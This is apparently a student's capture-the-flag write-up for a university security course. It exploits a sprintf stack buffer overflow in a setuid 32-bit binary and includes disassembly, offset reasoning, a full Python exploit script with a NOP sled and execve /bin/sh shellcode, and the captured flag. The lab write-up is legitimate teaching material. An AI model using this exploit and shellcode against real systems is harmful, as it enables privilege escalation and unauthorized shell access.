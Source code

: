 # Mission Impossible 1
During this writeup I disconnected and reconnected a lot because I couldn't keep writing and solving this at the same time and the binary would change. 

First we ssh into the server 
```bash
ssh agent@shell.hackintro25.di.uoa.gr -p 58779
```

We are greeted with a bomb and a timer:
```bash
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


####### #     # #######         ######  ####### #     # ######
   #    #     # #               #     # #     # ##   ## #     #
   #    #     # #               #     # #     # # # # # #     #
   #    ####### #####           ######  #     # #  #  # ######
   #    #     # #               #     # #     # #     # #     #
   #    #     # #               #     # #     # #     # #     #
   #    #     # #######         ######  ####### #     # ######

                          . . .                         
                           \|/                          
                         `--+--'                        
                           /|\                          
                          ' | '                         
                            |                           
                            |                           
                        ,--'#`--.                       
                        |#######|                       
                     _.-'#######`-._                    
                  ,-'###############`-.                 
                ,'#####################`,               
               /#########################\              
              |###########################|             
             |#############################|            
             |#############################|            
             |#############################|            
             |#############################|            
              |###########################|             
               \#########################/              
                `.#####################,'               
                  `._###############_,'                 
                     `--..#####..--'      

      Clock's ticking ... I hope you know how to overflow


agent@1c4696c81004[00:09:26]:/bomb$
```


Running `ls -la` we can see 2 files `flag` and the `welcome` executable:
```bash
agent@1c4696c81004[00:09:04]:/bomb$ ls -la
total 28
drwx---r-x 2 root   root    4096 Apr 29 20:48 .
drwxr-xr-x 1 root   root    4096 Apr 29 20:48 ..
-rw-r----- 1 secret secret    67 Apr 29 20:48 flag
-rwsr-sr-x 1 secret secret 15236 Apr 29 20:48 welcome
```
Running checksec:
```bash
agent@0f1aab9023f2[00:09:17]:/bomb$ checksec --file=welcome
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	SymbolsFORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   48 Symbols	  No	0		2		welcome
```

Let's run the program:
```bash
agent@1c4696c81004[00:07:50]:/bomb$ ./welcome
Usage: ./welcome [name]
agent@1c4696c81004[00:07:26]:/bomb$ ./welcome Ilias
Welcome, Ilias!
```

Running `objdump -d welcome` we can see `vuln` getting called:
```bash
    12ba:	8b 00                	mov    (%eax),%eax
    12bc:	83 ec 0c             	sub    $0xc,%esp
    12bf:	50                   	push   %eax
    12c0:	e8 18 ff ff ff       	call   11dd <vuln>
    12c5:	83 c4 10             	add    $0x10,%esp
    12c8:	b8 00 00 00 00       	mov    $0x0,%eax
    12cd:	8d 65 f8             	lea    -0x8(%ebp),%esp
```

If we go to `vuln`:
```bash
000011dd <vuln>:
    11dd:	55                   	push   %ebp
    11de:	89 e5                	mov    %esp,%ebp
    11e0:	53                   	push   %ebx
    11e1:	81 ec 24 01 00 00    	sub    $0x124,%esp
    11e7:	e8 f4 fe ff ff       	call   10e0 <__x86.get_pc_thunk.bx>
    11ec:	81 c3 08 2e 00 00    	add    $0x2e08,%ebx
    11f2:	83 ec 04             	sub    $0x4,%esp
    11f5:	ff 75 08             	push   0x8(%ebp)
    11f8:	8d 83 14 e0 ff ff    	lea    -0x1fec(%ebx),%eax
    11fe:	50                   	push   %eax
    11ff:	8d 85 e1 fe ff ff    	lea    -0x11f(%ebp),%eax
    1205:	50                   	push   %eax
    1206:	e8 75 fe ff ff       	call   1080 <sprintf@plt>
    120b:	83 c4 10             	add    $0x10,%esp
    120e:	83 ec 0c             	sub    $0xc,%esp
    1211:	8d 85 e1 fe ff ff    	lea    -0x11f(%ebp),%eax
    1217:	50                   	push   %eax
    1218:	e8 53 fe ff ff       	call   1070 <puts@plt>
    121d:	83 c4 10             	add    $0x10,%esp
    1220:	8b 83 f4 ff ff ff    	mov    -0xc(%ebx),%eax
    1226:	8b 00                	mov    (%eax),%eax
    1228:	83 ec 0c             	sub    $0xc,%esp
    122b:	50                   	push   %eax
    122c:	e8 1f fe ff ff       	call   1050 <fflush@plt>
    1231:	83 c4 10             	add    $0x10,%esp
    1234:	90                   	nop
    1235:	8b 5d fc             	mov    -0x4(%ebp),%ebx
    1238:	c9                   	leave
    1239:	c3                   	ret
```

Why is this function called `vuln`? Because of `sprintf`.
Now this is important information in this problem we only had 10
minutes and every time we logged out the binary reset. 
The way I worked around this challenge is everytime I would login 
I would instantly run `objdump -d welcome` to find the offset 
`lea    -0x11f(%ebp),%eax` here I would take the `0x11f = 287`
after that I would run `gdb ./welcome` and then `run `python3 -c 'print("A"*287 + "BBBB")'``.

The offset needed adjusting usually removing 5 bytes worked so in this case it is `"A"*282 + "BBBB"`.

Now for picking the address... after running it many times in gdb `x/20x $esp-4` we can 
see that we are in the 0xff... region of the stack so we have to pick a random address from there.

Crafting the payload (When I solved it the number I found in lea was 55 so 55 - 5 = 50.):
```python3
#!/usr/bin/env python3

import sys
import struct

payload = b""
payload += b"B" * 50
payload += struct.pack("<I", 0xffaf446c)
payload += b"\x90" * 100000
payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"  # Shellcode

sys.stdout.buffer.write(payload)
```
Important for creating `exploit.py` I worked in the `/tmp` folder.
The payload can be crafted using the program above:
```bash
python3 exploit.py > payload
```

And now we run it a lot of times the nopsled is very big on purpose and the shellcode was from the slides:
```bash
agent@633a90004b3c[00:03:26]:/tmp$ /bomb/welcome `cat payload`
Welcome, BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBlD����������������������������������������������������������������������������������������...(many more...)...������1�Ph//shh/bin����°
                                              1�@̀!
$ ls  
exploit.py  nop_sled.bin  payload
$ cd /bomb
$ cat flag
ea99b36216b186b217814af20d426eb4_I_know_one_thing_I_know_overflows
```
This was after about 30 runs.

I tried other ways too like exporting enviroment variables but they didn't work because this would happen:
```bash
getconf ARG_MAX
2097152
agent@95ccfa57c027[00:09:38]:/bomb$ export NOP=python3 -c 'print("\x90"*100000)'
agent@95ccfa57c027[00:09:38]:/bomb$ TRAPALRM:1: argument list too long: date
```

I'm not really sure why that happened I could tell date was being called but the conclusion I reached was that
the kernel rejected it would like running `execve` with `date` as
an argument and passing the `env` too, but `env` was too large.
In theory creating NOP variables would be a lot faster, but in the
end it was easier to just create that simple payload.
